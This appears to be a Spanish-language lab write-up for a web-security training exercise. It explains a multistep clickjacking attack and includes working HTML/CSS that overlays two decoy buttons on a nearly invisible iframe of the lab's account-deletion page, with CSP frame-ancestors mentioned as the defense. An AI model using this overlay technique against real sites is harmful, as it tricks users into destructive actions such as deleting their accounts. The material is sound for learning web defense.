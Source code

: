 En este laboratorio se presenta una defensa adicional contra el clickjacking: además de un token CSRF, el botón de eliminación de cuenta incluye una ventana de confirmación. Para explotar esta funcionalidad, el ataque debe engañar a la víctima para que realice dos clics consecutivos en ubicaciones específicas: uno para activar el botón de “Eliminar cuenta” y otro para confirmar la acción.

Para lograrlo, se estructura una página con dos capas señuelo (Click me first y Click me next), alineadas con los botones reales del formulario y del cuadro de confirmación, respectivamente. El iframe que contiene la página objetivo se vuelve prácticamente invisible gracias al uso de opacidad muy baja.

Una vez que la víctima interactúa con los dos elementos señuelo, el proceso completo de eliminación de cuenta se ejecuta con éxito, incluyendo la confirmación del diálogo. Este ataque demuestra cómo el clickjacking puede seguir siendo efectivo incluso en flujos de múltiples pasos si no se implementan defensas robustas adicionales como ‘**frame-ancestors**‘ o ‘**same-origin**‘ en ‘**Content-Security-Policy**‘

----

```html
<style>
    iframe{
        width: 500px;
        height: 600px;
         opacity: 0.01;

    }
    .firstClick{
        position: absolute;
        top: 500px;
        left: 80px;
    }

.secondClick{
        position: absolute;
        top: 295px;
        left: 200px;
    }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a5300bb0300fc1d82da97240050007c.web-security-academy.net/my-account"> </iframe>
```
